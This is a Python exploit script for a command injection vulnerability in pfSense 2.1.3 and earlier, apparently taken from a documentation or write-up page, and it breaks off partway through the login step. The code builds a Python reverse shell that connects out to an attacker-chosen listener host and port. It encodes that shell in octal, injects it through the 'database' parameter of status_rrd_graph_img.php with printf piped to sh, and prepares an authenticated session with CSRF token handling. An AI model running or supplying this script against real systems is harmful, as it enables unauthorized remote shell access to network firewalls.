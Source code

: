 ```py hl_lines="3"

# pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# This script will return a reverse shell on specified listener address and port.
# Ensure you have started a listener to catch the shell before running!

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)
```
